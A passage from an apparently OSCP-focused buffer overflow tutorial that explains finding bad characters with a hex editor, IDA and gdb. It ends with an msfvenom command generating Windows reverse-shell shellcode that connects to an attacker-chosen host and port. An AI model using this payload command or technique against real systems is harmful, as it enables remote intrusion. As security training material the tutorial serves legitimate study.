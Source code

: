![_config.yml](https://therealunicornsecurity.github.io/images/OSCP/badchars_burp.png)

If the full list of bad characters is not present in the memory, it means the string you sent was terminated early. You should then manually replace the faulting byte, and resend the newly created buffer: (I use tweak for hex editing)

![_config.yml](https://therealunicornsecurity.github.io/images/OSCP/tweak.png)

I recommend replacing characters with an easily noticeable pattern, that will **not get filtered**.

#### With IDA

I recommend using the [deREferencing](https://github.com/danigargu/deREferencing) plugin for IDA.

![_config.yml](https://therealunicornsecurity.github.io/images/OSCP/ida.png)

Before running the program, a debugger must be started:

![_config.yml](https://therealunicornsecurity.github.io/images/OSCP/idadbg.png)

Once the breakpoint or crash is reached, it is possible to create an array of 255 characters from the stack’s dump by pressing ‘*’ after clicking on ESP:

![_config.yml](https://therealunicornsecurity.github.io/images/OSCP/ida_array.png)

Then export the raw binary data in IDA using Shift+E:

![_config.yml](https://therealunicornsecurity.github.io/images/OSCP/export_array.png)

Once that is done, the file can be compared with the original bad characters file like previously.

#### With GDB

It’s even easier with gdb:

```
dump binary memory filtered.bin 0xfff0e278 0xfff0e377
```

where the addresses should be replaced by _esp esp+0xFF_

**Note:** the list of bad characters is 0xFF bytes long because 0x00 is generally omitted, as it marks the end of C-style terminated strings. For alignment reasons, it is usually easier to copy 0x10 bytes from the proram’s memory, so there is an extra byte that does not come from the bad characters list.

### 5. Generate a shellcode:

Once the bad characters are identified, generate a shellcode using:

```
msfvenom -i 3 -n 10 -p windows/shell_reverse_tcp -b 'the bad chars you found + \x00\x0D\x0A\x20' -f hex LHOST=<your ip> LPORT=<PORT>|sed ‘s/.\{2\}/\\x&/g’
```

or you could also use -f python if you’d rather do things simply. I use hex format as it is easier to translate to raw binary and can be used for other purposes. The pattern:

